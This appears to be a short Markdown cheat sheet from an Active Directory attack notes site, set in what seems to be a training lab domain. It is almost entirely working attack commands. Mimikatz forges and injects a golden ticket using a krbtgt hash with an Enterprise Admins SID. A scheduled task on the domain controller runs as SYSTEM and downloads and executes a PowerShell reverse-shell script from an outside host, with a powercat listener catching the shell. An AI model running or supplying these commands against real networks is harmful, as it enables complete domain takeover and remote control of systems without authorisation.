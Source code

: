 ```yaml
---
layout: page
title: "# Domain access, PrivEsc to EntAdmin using krbtgt Hash, Rev Shell schtasks"
permalink: /ad_cheatsheets/domain_access_privesc_to_entadmin_with_krbtgthash
---
```


# Domain access, PrivEsc to EntAdmin using krbtgt Hash, Rev Shell schtasks

## We already have the hash, create TGT ticket

```powershell
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511/sids:S-1-5-21-280534878-1496970234-700767426-519 /krbtgt:ff46a9d8bd66c6efd77603da26796f35/ticket:C:\AD\Tools\krbtgt_tkt.kirbi"'
```

## Inject Ticket

```powershell
Invoke-Mimikatz -Command '"kerberos::ptt C:\AD\Tools\krbtgt_tkt.kirbi"'
```

## Reverse Shell

```powershell
schtasks /create /S mcorp-dc.moneycorp.local /SC Weekly /RU "NT Authority\SYSTEM" /TN "STCheck648" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://172.16.100.48/Invoke-PowerShellTcpEx.ps1''')'"

powercat -l -v -p 443 -t 1000

schtasks /Run /S mcorp-dc.moneycorp.local /TN "STCheck648"
```

## Resources

[swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md)
